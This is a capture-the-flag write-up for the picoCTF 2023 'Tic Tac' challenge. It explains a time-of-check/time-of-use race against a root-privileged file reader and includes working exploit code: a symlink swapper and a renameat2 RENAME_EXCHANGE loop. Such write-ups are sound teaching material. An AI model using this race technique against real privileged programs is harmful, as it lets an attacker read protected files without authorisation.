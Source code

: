 ```yaml
---
title: Tic Tac picoCTF 2023
published: Apr 1, 2023
language: English
---
```


**200 points**

AUTHOR: JUNIAS BONOU

Description
Someone created a program to read text files; we think the program reads files with root privileges but apparently it only accepts to read files that are owned by the user running it.
ssh to saturn.picoctf.net:50591, and run the binary named "txtreader" once connected. Login as ctf-player with the password, d8819d45

_Note:_ This challenge launches an instance on demand.

---

```cpp
#include <stdio.h>
#include<unistd.h>
#include <string.h>

int main(int argc, char * argv[]){
  unlink(argv[1]);
  symlink("/home/ctf-player/flag.txt",argv[1]);
}
```

But this is just **NOT FAST ENOUGH APPERANTLY**

Thank god `LiveOverflow` exists because after scraping the web with the utmost of `sus` google searches that probably put me on a list I found his video, directly solving this question [https://www.youtube.com/watch?v=5g137gsB9Wk&ab_channel=LiveOverflow](https://www.youtube.com/watch?v=5g137gsB9Wk&ab_channel=LiveOverflow) (you could skip this writeup and watch his video).

My explanation:

We want to create race conditions, such that the command execution would be like so:

```
--> Be a root file
--> Get checked by the programs if:
        // Check the file's owner.
        if (statbuf.st_uid != getuid()) {
            std::cerr << "Error: you don't own this file" << std::endl;
            return 1;
        }
--> Become readable with symbolic link
--> Get opened and read by the program:
        // Read the contents of the file.
        if (file.is_open()) {
            std::string line;
            while (getline(file, line)) {
            std::cout << line << std::endl;
            }
        } else {
            std::cerr << "Error: Could not open file" << std::endl;
            return 1;
        }
```

Instead of the code I showed above, there is a faster built in way in linux that this hidden from the internet does:

```cpp
#define _GNU_SOURCE
#include <stdio.h>
#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <linux/fs.h>

// source https://github.com/sroettger/35c3ctf_chals/blob/master/logrotate/exploit/rename.c
int main(int argc, char *argv[]) {
  while (1) {
    syscall(SYS_renameat2, AT_FDCWD, argv[1], AT_FDCWD, argv[2], RENAME_EXCHANGE);
  }
  return 0;
}
```

Running this script on two files, one with symbolic link to the flag and another user-made file tricks the reader program when it tried to read the symbolic-link file to print out the flag if you're lucky (just a few reruns needed).

And so:

> picoCTF{your flag}
